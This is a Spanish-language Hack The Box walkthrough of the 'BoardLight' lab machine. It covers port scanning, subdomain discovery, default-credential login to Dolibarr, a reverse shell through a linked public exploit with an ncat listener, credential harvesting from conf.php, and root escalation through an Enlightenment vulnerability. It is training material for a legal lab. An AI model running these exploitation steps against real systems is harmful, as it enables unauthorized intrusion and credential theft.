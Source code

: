 # BoardLight

✍️ Autor: Hack The Box 🔍 Dificultad: Fácil 📅 Fecha de creación: 25/05/2024

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.11.11
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 9.46.25 (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.11.11
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 9.48.14.png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 10.10.11.11
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 9.49.33.png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web nos salga una página de una consultoría de ciberseguridad.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 9.51.10.png" alt=""><figcaption></figcaption></figure>

Inspeccionamos el código fuente y no vemos nada relevante.&#x20;

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster vhost --domain board.htb -u http://10.10.11.11 \
    -w /usr/local/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt \ 
    --append-domain
```

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 10.41.24.png" alt=""><figcaption></figcaption></figure>

Hemos descubierto un subdominio por lo que editamos el fichero `/etc/hosts` con el subdominio y la IP.

Con la herramienta Wfuzz vemos los directorios y archivos que contiene la página.&#x20;

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 10.27.01.png" alt=""><figcaption></figcaption></figure>

Nos llama la atención el archivo index.php por lo que realizamos la búsqueda.

```bash
http://crm.board.htb/index.php
```

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 10.47.17.png" alt=""><figcaption></figcaption></figure>

Es un panel de login por lo que probamos las credenciales más comunes. Probamos admin tanto para contraseña y usuario y nos deja iniciar sesión correctamente.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 10.48.51.png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Revisamos la versión por Internet si tiene alguna vulnerabilidad. Efectivamente tiene una vulnerabilidad que intentaremos explotar haciendo una Reverse Shell.

{% @github-files/github-code-block url="https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-3025" %}

Ejecutamos el script mientras nos ponemos en escucha para conectarnos.

```
python3 exploit.py http://crm.board.htb admin admin 10.10.16.13 9001
```

```bash
ncat -l -p 9001
```

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.04.46.png" alt=""><figcaption></figcaption></figure>

En esta etapa, tras obtener la shell en la máquina objetivo, descubrimos que el flag no se encuentra en esta máquina en particular. En cambio, el objetivo ahora es buscar las credenciales del otro usuario en esta misma máquina que indagando por documentaciones de Dolibarr se llama **Larissa**.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.10.33.png" alt=""><figcaption></figcaption></figure>

Mostramos el contenido del archivo `conf.php`

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.16.11 (1).png" alt=""><figcaption></figcaption></figure>

Hemos descubierto las credenciales por lo que nos conectamos a través del serivicio **SSH**.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.18.27.png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar pero nos pide contraseña.

Listamos el contenido que tiene el usuario y descubrimos la flag del usuario.&#x20;

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.20.17.png" alt=""><figcaption></figcaption></figure>

Utilicé **LinPEAS**, un script diseñado para identificar posibles rutas de escalamiento de privilegios en sistemas operativos Linux, Unix y macOS. Para obtener más información sobre este script, pueden consultar el siguiente enlace: [LinPEAS en GitHub](https://github.com/Cerbersec/scripts/blob/master/linux/linpeas.sh).

Primero, busqué el código del script en GitHub, lo copié y lo guardé en un archivo llamado l**inpeas.sh** en el directorio del usuario **Larissa**. Para hacer esto, utilicé el editor nano con el siguiente comando:

```bash
nano linpeas.sh
```

Dentro de este archivo, pegué todo el código obtenido de GitHub y lo guardé. Sin embargo, para ejecutar el script, necesitamos otorgarle permisos de ejecución, lo cual se hace con el siguiente comando:

```bash
chmod +x linpeas.sh
```

Luego de esto ejecutamos el script de la siguiente manera:

```
bash linpeas.sh
```

Esperamos a que el script termine su ejecución. Una vez completado, revisamos los archivos de interés. **LinPEAS** realiza un escaneo exhaustivo del sistema para identificar archivos y configuraciones que podrían presentar vulnerabilidades para la escalada de privilegios.

Entre los archivos más relevantes o recurrentes se encuentran los relacionados con Enlightenment. Tras investigar, descubrimos que la **versión 0.23** de **Enlightenment** tiene una vulnerabilidad identificada con el código \[**CVE-2022–37706**]. Además, encontramos que existe un exploit disponible para explotar esta vulnerabilidad que coincide con el exploit que tiene Larissa.

```bash
./exploit.sh
```

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.35.48.png" alt=""><figcaption></figcaption></figure>

Ya somos **root** por lo que tenemos el máximo de los privilegios y al entrar en el directorio del root y al listarlo nos sale la última bandera.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.44.51.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.45.32.png" alt=""><figcaption></figcaption></figure>

